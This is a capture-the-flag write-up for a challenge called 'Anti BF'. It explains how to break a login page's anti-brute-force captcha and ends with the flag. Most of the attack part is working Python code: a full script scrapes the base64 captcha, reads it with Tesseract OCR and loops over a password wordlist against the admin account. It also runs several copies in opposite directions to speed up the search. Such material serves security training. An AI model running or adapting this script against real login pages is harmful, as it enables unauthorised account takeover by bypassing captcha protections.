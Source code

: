 # Anti BF

```
A strange looking person is coming at you with a bright grin 
on his face. Interested, you ask him what's going on. He then 
says that he just implemented an anti-bruteforce on his
website's login page, and that there is no way for you to 
break it.

Prove him that his system is not that secure by login into his 
website.
```

Level : Medium
Author : Mizu

## Write up
Programming language : Python 🐍

For this challenge, we need to login into his website by using the password list gived by the sweet owner.

![Main page]{images/site.png}
![Login page]{images/login.png}

Several problems we got :
* Submit the form
* Analyze the captcha
* Input passwords from the list

To take care about the form we are going to use the module `requests` of python. 

For this challenge we have to scrap the site and send the data after, to perform this we need a session. 

```python
with requests.Session() as s:
```

Now we can start our script with a scrapping. I use the same cookies for each requests.

```python
jar = requests.cookies.RequestsCookieJar()
jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

site = s.get(url, cookies=jar)
```
We got the site in the variable `site`, but it is a bunch of information and we just want the captcha. So, we are going to use `BeautifulSoup` to find our captcha.

After parse the code, and find the captcha, we see that is a picture encoded in **base64**. Cool, python got a module call `base64` to manage **decode/encode base64**. Just remember the image is encoded in base64, we will use it after.

We have to take care of the captcha, I found a software call `Tesseract OCR` https://github.com/tesseract-ocr/tesseract that recognize text in a picture, that perfect for our challenge! Moreover he have a python implementation with `pytesseract`.

Inform to the module, where is installed our software on the computer : 
```python
pytesseract.pytesseract.tesseract_cmd = "..\\Tesseract\\tesseract.exe"
```
Tesseract need a image to recognize the text, so we are going to use the module `cv2` to read our captcha input it on Tesseract to get the text. To perform this we have to save our image on our computer and after read with cv2.

To save our image, we are going to use the instance `Image` from `PIL`. Of course, our captcha is encoded in base64, remember it, so we have to decode it and read the bytes by using `BytesIO` from `io` for save the image.

```python
im = Image.open(BytesIO(base64.b64decode(b64)))
im.save('captcha%s.png' % sys.argv[1], 'PNG')

img = cv2.imread('captcha%s.png' % sys.argv[1])
```
Now our captcha is decoded and saved on our computer, we just need to say to tesseract, "Hey, identify the text in this picture!"

```python
captcha = pytesseract.image_to_string(img).replace('\n', '')
```

Tada! we got our captcha in a variable `captacha`. 
>Of course, Tesseract is not 100% accurate, so because we will bruteforcing, we must pray that the password is not the one where Tesseract failed to recognize.

We just send the data by using the function `post()` of requests, and store the site content to look at if you we got an error (wrong password or captcha) or if we found the password!
```python
r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)
```

We manage those errors by a set of condition and that it we repeat this process of each password from the password list

```python
if p[len(p)-1].text == 'Wrong credentials !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
elif p[len(p)-1].text == 'Wrong captcha !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
else:
    print(Fore.GREEN+'+ password found : %s' % (password))
```
### Tips 

1. Make our script in a infinite loop until we got the good password, because if you reach the last password and the good one was with a wrong captcha, we fail our bruteforce. So I return `True` if we got the good password to terminate the script.
```python
def main():
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```

2. I also write the password in a file when we got the good one, to let the script run and go to sleep. Meanwhile, our script are going to try every password and if we get it, the script closes. 
```python 
with open('..\\flag.txt', 'w') as file:
    file.write('\n'.join((url, 'admin', password)))
```

3. I set a parameter to my script, this paramater is the number of our screen. Let me explain, If this number is odd the script lists the passwords from first to last, but if it is even then it is the opposite (from last to first). The goal is to have several terminals that run the script and enumerate the password in one direction and in the other.
```python
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False
...
if type: password = lines[i].replace('\n', '')
else: password = lines[len(lines)-1-i].replace('\n', '')
```

Final Code : 
```python
from PIL import Image
from io import BytesIO
import cv2
import pytesseract
import requests
import base64
import sys
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colors
init()
print(Style.BRIGHT + "HEY YOU DON'T RUN FROM THE BRUTEFORCE!")

# Inform where is our Tesseract software to pytesseract
pytesseract.pytesseract.tesseract_cmd = "C:/Users/fox25/Desktop/python/Tesseract/tesseract.exe"

url = "http://antibf.ec2qualifications.esaip-cyber.com/login"

# This permit to have several terminals that run the script and enumerate the password in one direction and in the other.
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False

def bruteforce():
    # Make the requests in a session
    with requests.Session() as s:
        # Read the password list
        with open('wordlist.txt', 'r') as file:
            lines = file.readlines()

            for i in range(len(lines)):
                # Filter the password
                if type: password = lines[i].replace('\n', '')
                else: password = lines[len(lines)-1-i].replace('\n', '')

                # Set the session cookies
                jar = requests.cookies.RequestsCookieJar()
                jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

                # Scrap the logging page
                site = s.get(url, cookies=jar)

                # Parse the scrap
                soup = BeautifulSoup(site.text, 'html.parser')

                # Find the captcha
                imgcaptcha = soup.findAll('img', attrs={"class": "center-img mgb-1"})

                # Filter string to get just the base64 string
                b64 = imgcaptcha[0]['src'].replace('data:image/png;base64, ', '').encode()

                # Save the captcha into our computer
                im = Image.open(BytesIO(base64.b64decode(b64)))
                im.save('captcha%s.png' % sys.argv[1], 'PNG')

                # Load the picture
                img = cv2.imread('captcha%s.png' % sys.argv[1])


                # Recognize the text in the picture by using Tesseract
                captcha = pytesseract.image_to_string(img).replace('\n', '')

                # Post the datas and store the response (scrap the site another time)
                r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)

                # Parse the response and find the response
                soup2 = BeautifulSoup(r.text, 'html.parser')
                p = soup2.findAll('p')
                msg = p[len(p)-1]

                # Check if the response is an error (wrong password/captcha) or the good password
                if p[len(p)-1].text == 'Wrong credentials !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                elif p[len(p)-1].text == 'Wrong captcha !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                else:
                    print(Fore.GREEN+'+ password found : %s' % (password))
                    with open('..\\flag.txt', 'w') as file:
                        file.write('\n'.join((url, 'admin', password)))
                    return True


def main():
    # Repeat the bruteforce until we got the good password
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```
This method have a lot of issues, and sure it is not the most optimize, moreover Tesseract is not 100% accurate.
![bruteforce.png]{/images/bruteforce.png}

There is the flag :
![flag.png]{/images/flag.png}
```
R2Lille{C4pTCh4_4r3_N0t_3n0uGh}
```